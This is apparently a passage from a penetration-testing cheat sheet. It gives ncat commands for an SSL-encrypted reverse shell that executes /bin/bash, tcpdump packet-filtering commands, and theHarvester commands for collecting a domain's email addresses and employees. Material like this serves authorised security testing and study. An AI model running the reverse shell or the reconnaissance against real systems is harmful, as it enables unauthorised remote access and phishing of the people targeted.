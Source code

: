Reverse shell SSL

```text
ncat -vnl 4444 --ssl
ncat -nv 192.168.1.10 4444 --ssl --exec /bin/bash
```

### Tcpdump

Load a .pcap file

```text
tcpdump -r file.pcap
```

Filter by source host

```text
tcpdump -n src host 172.16.40.10
```

Filter by destination host

```text
tcpdump -n dst host 172.16.40.10
```

Filter by port

```text
tcpdump -n port 80
```

Print packet data in HEX and ASCI

```text
tcpdump -nXX
```

Packets with ACK or PSH flags set

```text
tcpdump -A -n 'tcp[13] = 24'
```

Print HEX data on an 1500 MTU card

```text
tcpdump -i tap0 -nXX -s 1500 port 110
```

### The harvester

Search all sources for email

```text
theharvester -d domain.com -b all
```

Search employees on linkedin

```text
theharvester -d domain.com -b linkedin
```
